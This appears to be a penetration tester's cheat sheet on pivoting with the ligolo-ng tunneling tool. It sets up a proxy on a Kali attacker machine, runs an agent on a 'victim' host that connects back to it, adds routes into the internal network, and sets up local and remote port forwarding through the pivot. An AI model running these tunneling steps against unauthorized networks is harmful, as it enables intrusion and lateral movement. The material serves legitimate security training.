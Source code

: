 JUST USE AUTOROUTE
fix for file already exists when reestablishing connections (after it dies)
```
sudo ip show routes
sudo ip route del <172.16.0.0/23>
```
![](https://miro.medium.com/v2/resize:fit:700/1*ermCj8d199rHTXeCabiXlA.png)
## Introduction

ligolo  is a tunneling tool simillar to chisel but very powerful.
ligolo can setup the routing and portforwarding  for you on its own.

----------------
# Preparation

start with a map  of hosts that you can build upon using eraser.io or draw.io......
##  the tunnel
first you would need an agent and a proxy, your attacking machine is gonna be running the proxy, the target will run the ligolo-agent.
`<URL>` PROXY
`<URL>` AGENT

Now that you have a basic understanding of what your target is assigned and what the IP for the connected networks are, lets  install and run the ligolo tunnel:

```
─(demise㉿kali)-[/opt]
└─$ sudo ip tuntap add user demise mode tun ligolo

┌──(demise㉿kali)-[/opt]
└─$ sudo ip link set ligolo up

```
`create a network interface for ligolo (tunnel interface)`
```
sudo ip tuntap add user [demise] mode  tun ligolo
sudo ip link set ligolo up
```

`verify interface exists`
```
ip addr show ligolo
```

## Creating the tunnel


`Setting up the ligolo-ng Proxy server (as an attacker)`
```
ligolo-proxy [-autocert -auto-cert -selfcert] 0.0.0.0:11601
# in realworld use -autocert 
# in lab environment use -selfcert
```


`run ligolo agent (on  target)`
```
victim$ ./ligolo-agent -connect ip:port -ignore-cert
```

type `session` and specify the target with `1`
### Routing to internal network
lets start adding a route  to the internal network using  the `Autorouting` functionality provided 
`view routing configs`
```
ifconfig
```

You will now see at the bottom a new  interface for the `lan` that the pivot host is connected to, confirming access to the internal network.

` manually adding route to the new interface (pivot's internal network nic)`
```
sudo ip route  add 172.16.x.0/24 dev ligolo
```

`start the tunnel`
```
ligolo> start
```



# Local Port forwarding (Accessing local ports)

if the host is running local services we can access them with `240.0.0.1
```
attcker$ sudo ip route add 240.0.0.1/32 dev ligolo
```

detect machine's local services
```
attcker$ nmap 240.0.0.1
```
## Remote Port forwarding

`start a listener on agent1`
```
Agent:pivot1@jhost1> listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp 
```
any network coming to pivot1's 30000 port will get forwarded to (kali 127.xx:10000)
this whole command says:
`forward traffic coming to jumphost1's port 30000 from any ip to attacker's ip  which they can access via localhost:10000`



